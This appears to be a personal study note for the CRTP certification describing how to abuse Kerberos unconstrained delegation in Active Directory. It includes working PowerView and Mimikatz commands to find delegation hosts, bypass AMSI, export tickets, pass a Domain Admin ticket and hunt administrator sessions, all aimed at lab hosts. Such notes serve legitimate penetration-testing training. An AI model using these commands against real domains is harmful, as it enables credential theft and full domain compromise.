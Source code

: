 ```yaml
---
title: "17. Unconstrained Delegation"
section: "crtp"
date: 2022-04-16
tags: ["Domain Priv Esc", "methodology"]
---
```


## Methodology/Steps
> 1. For an example we have machine pwn1 as an Unconstrained user; We are pwn0 and we got foot-hold/credentials/hashes for machine pwn2 who has local admin access for machine pwn1; Hence we can perform this attack
> 2. Get a Powershell session as a different user using **"Over pass the hash"** attack if required(in this case its **pwn2/appadmin**)
> 3. We can try searching for local admins it has access to using **Find-LocalAdminAccess -Verbose**
> 4. Create a **New-PSSession** attaching to the **"Unconstrained user"**
> 5. Enter the new session using **Enter-PSSession**
> 6. Bypass the *AMSI*
> 7. EXIT
> 8. Load **Mimikatz.ps1** on the new session using **Invoke-command**
> 9. Enter the new session using **Enter-PSSession** *again*
> 10. Now we can get the admin token and save it to the disk
> 11. Try and check if you have any file from a DA
> 12. If not we can try to pull if there is any sessions logged on as *Administrator* as pwn0 using **Invoke-Hunter** then run the attack again
> 13. Once we get an DA token we can Reuse the token using **Invoke-Mimikatz**
> 14. Now we can access any service on the DC; Example **`ls \\dc-corp\C$`** or use **WMI-Commands** / **ScriptBlock**

## Enumerate computers with Unconstrained Delegation
```powershell
Get-NetComputer -UnConstrained
```

## Check if a token is available and save to disk
> **Get admin token**
> After compromising the computer with UD enabled, we can trick or wait for an admin connection
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

## Reuse of the DA token
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt Administrator@krbtgt-DOMAIN.LOCAL.kirbi"'
```

## Pull any sessions if logged on with administrator/ Printer Bug
```powershell
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
```